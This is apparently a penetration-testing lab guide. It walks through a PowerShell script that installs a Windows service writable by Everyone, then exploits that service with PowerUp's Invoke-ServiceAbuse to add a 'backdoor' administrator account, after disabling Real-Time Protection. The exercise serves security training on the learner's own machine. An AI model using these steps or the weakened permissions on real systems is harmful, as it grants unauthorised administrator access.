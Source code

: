 # Write A PS Script That Installs An Insecure Windows Service
An insecure Windows service is one that can be easily exploited by a Penetration Tester. These services often lack proper security protections and can be compromised through vulnerabilities in the code or weak passwords.

## References
- [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) by HarmJ0y
- [How to Set Permission on a Service Using Subinacl](http://www.waynezim.com/2010/02/how-to-set-permission-on-a-service-using-subinacl/) by Wayne Zimmerman
- [Privilege Escalation with Insecure Windows Service Permissions](https://medium.com/r3d-buck3t/privilege-escalation-with-insecure-windows-service-permissions-5d97312db107) by Nairuz Abulhul on Medium
- [Digging Deeper into Vulnerable Windows Services](https://www.blackhillsinfosec.com/digging-deeper-vulnerable-windows-services/) by Brian Fehrman on BlackHillsInfoSec
- [Windows Privilege Escalation](https://github.com/0xJs/RedTeaming_CheatSheet/blob/main/infrastructure/privesc_windows.md#Insecure-Service-Executables) by 0xJs on GitHub
- [Windows Privilege Escalation - Exploiting Insecure Service Permissions](https://www.youtube.com/watch?app=desktop&v=WCnuu9fF-pk) by HackerSploit on YouTube
- [PowerUp Cheatsheet](https://blog.certcube.com/powerup-cheatsheet/) by Mr X on CertCube Labs

## Tasks
- Research how to set up a Windows service with insecure configurations, such as weak permissions or allowing modifications by EVERYONE
- Create a PowerShell script that automates the creation of the insecure Windows service, incorporating the vulnerable configurations identified in the research
- Execute your PowerShell script to install the insecure Windows service on the target system
- Use PowerUp.ps1 to exploit the insecure Windows service that your script installed

## Recommended Approach
- Search the following keywords on Google: vulnerable windows service binpath
- Research how to modify the permissions of a Windows Service using SUBINACL.exe
- Research how to create a new Windows Service using sc.exe
- Create a vulnerable Windows Service that any user, regardless of their permission levels, can modify
- Use PowerUp.ps1 to exploit the vulnerable Windows Service and obtain unauthorised SYSTEM privileges on the machine

## Solutions With Scripts
1. Create a dummy malware executable, save the following C++ code as `dummymalware.cpp` and compile it into an executable using compilers like Dev-C++
   ```
   #include <windows.h>
   
   int main()
   {
       MessageBox(NULL, "I'm a Dummy Malware", "Alert", MB_OK | MB_ICONEXCLAMATION);
       return 0;
   }
   ```
2. Save the following PowerShell script as `insecureservice.ps1`. It will create a service called `InsecureService` that runs `dummymalware.exe`, and modifies service permissions so Everyone can modify the service, making it insecure
   ```
   # Define service variables
   $serviceName = "InsecureService"
   $serviceDisplayName = "Insecure Windows Service"
   $serviceDescription = "A vulnerable service with insecure permissions."
   $servicePath = "C:\Windows\System32\dummymalware.exe"  # You can specify any executable
   $serviceStartMode = "Automatic"
   
   # Step 1: Create the service
   New-Service -Name $serviceName -BinaryPathName $servicePath -DisplayName $serviceDisplayName -Description $serviceDescription -StartupType $serviceStartMode
   
   # Step 2: Modify registry permissions to make it insecure
   $acl = Get-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\$serviceName"
   $rule = New-Object System.Security.AccessControl.RegistryAccessRule("Everyone", "FullControl", "Allow")
   $acl.SetAccessRule($rule)
   Set-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\$serviceName" $acl
   
   Write-Host "$serviceName has been created with insecure permissions!"
   ```
3. Open PowerShell as Administrator, run `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted` and then navigate to the folder where insecure service is stored and run `.\insecureservice.ps1`
4. To identify the insecure service with PowerUp.ps1, first deactivate Real-Time Protection in Windows Security. Then open PowerShell as Administrator, navigate to where PowerUp.ps1 is stored and run `Import-Module .\PowerUp.ps1`.
   To check for services with weak permissions, run
   ```
   Get-UnquotedService
   ```
   To check for services with writable executables, run
   ```
   Get-ModifiableServiceFile
   ```
   ![image](https://github.com/user-attachments/assets/feae3244-f468-4ed4-9291-5c0577399d78)
   To check for service permissions, run
   ```
   Get-ServiceDetail -Name "InsecureService"
   ```
   ![image](https://github.com/user-attachments/assets/0eac43ee-4c4c-4b1c-912e-1c83602d4468)
5. To exploit the insecure service with PowerUp.ps1, run
   ```
   Invoke-ServiceAbuse -Name InsecureService -UserName backdoor -Password password -LocalGroup "Administrators"
   ```
   This will create a backdoor account that will be added to the Administrators group
   ![image](https://github.com/user-attachments/assets/91ff8a40-2655-4b24-839c-078322e14293)
6. To delete the insecure service in PowerShell, use
   ```
   sc.exe delete InsecureService
   ```
